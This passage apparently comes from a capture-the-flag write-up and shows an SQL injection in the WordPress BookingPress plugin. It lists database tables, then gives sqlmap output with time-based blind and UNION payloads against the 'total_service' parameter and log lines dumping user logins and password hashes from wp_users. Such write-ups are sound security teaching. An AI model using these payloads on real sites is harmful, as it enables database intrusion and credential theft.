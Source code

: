 		| wp_bookingpress_default_workhours    |
		| wp_bookingpress_entries              |
		| wp_bookingpress_form_fields          |
		| wp_bookingpress_notifications        |
		| wp_bookingpress_payment_logs         |
		| wp_bookingpress_services             |
		| wp_bookingpress_servicesmeta         |
		| wp_bookingpress_settings             |
		| wp_commentmeta                       |
		| wp_comments                          |
		| wp_links                             |
		| wp_options                           |
		| wp_postmeta                          |
		| wp_posts                             |
		| wp_term_relationships                |
		| wp_term_taxonomy                     |
		| wp_termmeta                          |
		| wp_terms                             |
		| wp_usermeta                          |
		| wp_users                             |
		+--------------------------------------+
		```
		> Tables
		> - `wp_users`
		{: .prompt-info}
	3. Dump `columns`
		```
		---
		Parameter: total_service (POST)
		    Type: time-based blind
		    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
		    Payload: action=bookingpress_front_get_category_services&_wpnonce=221f0d0bf9&category_id=33&total_service=1) AND (SELECT 7909 FROM (SELECT(SLEEP(5)))TrGN) AND (3800=3800
		
		    Type: UNION query
		    Title: Generic UNION query (NULL) - 9 columns
		    Payload: action=bookingpress_front_get_category_services&_wpnonce=221f0d0bf9&category_id=33&total_service=1) UNION ALL SELECT NULL,CONCAT(0x7162707671,0x454c54705963694f4179576f4973705a6f62646e4e706e5a664a4d5466584c4b4d6762674f537964,0x716b717871),NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
		---
		[12:07:12] [INFO] the back-end DBMS is MySQL
		web application technology: Nginx 1.18.0, PHP 8.0.24
		back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
		[12:07:12] [INFO] fetching entries of column(s) 'user_login,user_pass' for table 'wp_users' in database 'blog'
		[12:07:13] [INFO] recognized possible password hashes in column 'user_pass'
		do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
		do you want to crack them via a dictionary-based attack? [Y/n/q] n
		Database: blog